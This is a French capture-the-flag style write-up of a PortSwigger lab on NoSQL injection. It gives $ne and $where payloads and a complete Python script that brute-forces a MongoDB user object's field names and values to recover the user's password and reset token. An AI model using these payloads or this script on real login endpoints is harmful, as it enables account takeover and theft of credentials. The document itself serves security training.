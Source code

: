 # Lab

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields

## Solution

On doit se connecter avec l'utilisateur `carlos`.

Il y a une page de login qui utilise certainement une base de données NoSQL MongoDB puisque la body de la requête de connexion est la suivante :

```json
{
    "username": "carlos",
    "password": "password"
}
```

Instinctivement, on va essayer de faire une injection NoSQL avec le payload suivant :

```json
{
    "username": "carlos",
    "password": {"$ne": "password"}
}
```

Cela n'a pas fonctionné et en plus ça a bloqué le compte de Carlos.

Pour le débloquer, on doit réinitialiser le mot de passe.

NB : Le fait de réinitialiser le mot de passe de carlos ajoute en base de données un champ `resetPassword` sur l'objet de l'utilisateur avec un token.

Sur la pager de connexion on va essayer d'injecter une condition `where` pour voir si l'application réagit :

```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "1"
}
```

Sur la page on voit en retour `Invalid password`.

Maintenant en essayant avec :

```json
{
    "username": "carlos",
    "password": {"$ne": ""},
    "$where": "0"
}
```

On voit que le contenu de la page a changé et qu'il est maintenant affiché `Account locked`.

La condition est donc bien interpretée. A partir de ce constat, on peut commencer à faire une injection NoSQL basée sur les erreurs.

On va, dans l'ordre :

- Determiner le nombre de champs qu'il y a dans l'objet utilisateur de carlos
- Determiner la longueur des noms des champs
- Extraitre les noms des champs
- Determiner la longueur des valeurs des champs
- Extraire les valeurs des champs

Voici le POC Python :

```python
import requests

LAB_URL = "https://0aa700bd03fd6cd0831a2ded00b00042.web-security-academy.net"
LOGIN_ENDPOINT = "/login"
COOKIES = {"session": "AHcRgf5jcW5BZ07IFmzEIRdcnUcjrDNd"}
USERNAME = "carlos"
PAYLOADS = {
    "GET_NB_FIELDS": "Object.keys(this)[{}]!=null",
    "GET_FIELD_NAME_LENGTH": "Object.keys(this)[{}].length=={}",
    "GET_FIELD_NAME": "Object.keys(this)[{}][{}] == '{}'",
    "GET_FIELD_LENGTH": "this.{}.length == {}",
    "GET_FIELD_VALUE": "this.{}[{}] == '{}'"
}
BODY = {"password": {"$ne": ""}, "username": USERNAME}
DICTIONARY = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+-=[]{};:,./<>?|\\\"'`~"

def extract_feilds():
    lock_account()
    nb_fields = extract_nb_fields()
    feilds_name = extract_field_name(nb_fields)
    feilds = extract_field_value(feilds_name)
    return feilds

def lock_account():
    requests.post(LAB_URL + LOGIN_ENDPOINT, cookies=COOKIES, json=BODY)

def extract_nb_fields(nb_to_test=100):
    for i in range(nb_to_test):
        payload = PAYLOADS["GET_NB_FIELDS"].format(i)
        body = BODY.copy()
        body["$where"] = payload
        response = requests.post(LAB_URL + LOGIN_ENDPOINT, cookies=COOKIES, json=body)
        if "Invalid username or password" in response.text:
            return i + 1
        
def extract_field_name(nb_fields, max_feild_name_length=100):
    fields_name = []
    for i in range(nb_fields):
        for j in range(1, max_feild_name_length):
            payload = PAYLOADS["GET_FIELD_NAME_LENGTH"].format(i, j)
            body = BODY.copy()
            body["$where"] = payload
            response = requests.post(LAB_URL + LOGIN_ENDPOINT, cookies=COOKIES, json=body)
            if "Account locked" in response.text:
                fields_name.append("")
                for k in range(j):
                    for c in DICTIONARY:
                        payload = PAYLOADS["GET_FIELD_NAME"].format(i, k, c)
                        body = BODY.copy()
                        body["$where"] = payload
                        response = requests.post(LAB_URL + LOGIN_ENDPOINT, cookies=COOKIES, json=body)
                        if "Account locked" in response.text:
                            fields_name[i] += c
                            break        
    return fields_name

def extract_field_value(fields_name, max_field_value_length=100):
    fields = {}
    for field_name in fields_name:
        for i in range(1, max_field_value_length):
            payload = PAYLOADS["GET_FIELD_LENGTH"].format(field_name, i)
            body = BODY.copy()
            body["$where"] = payload
            response = requests.post(LAB_URL + LOGIN_ENDPOINT, cookies=COOKIES, json=body)
            if "Account locked" in response.text:
                fields[field_name] = ""
                for j in range(i):
                    for c in DICTIONARY:
                        payload = PAYLOADS["GET_FIELD_VALUE"].format(field_name, j, c)
                        body = BODY.copy()
                        body["$where"] = payload
                        response = requests.post(LAB_URL + LOGIN_ENDPOINT, cookies=COOKIES, json=body)
                        if "Account locked" in response.text:
                            fields[field_name] += c
                            break
                break
    return fields

print(extract_feilds())
```

```json
{
    "username": "carlos",
    "password": "yrtu5jvq1bq1his588a7",
    "passwordReset": "fc6bef5458b56bc6"
}
```

Mais on ne sait pas où utiliser ce token.

On peut essayer sur la page de login en le mettant en query string mais rien ne se passe.

En le mettant sur en query string de la page de réinitialisation du mot de passe, on voit qu'on a la possibilité de le réinitialiser.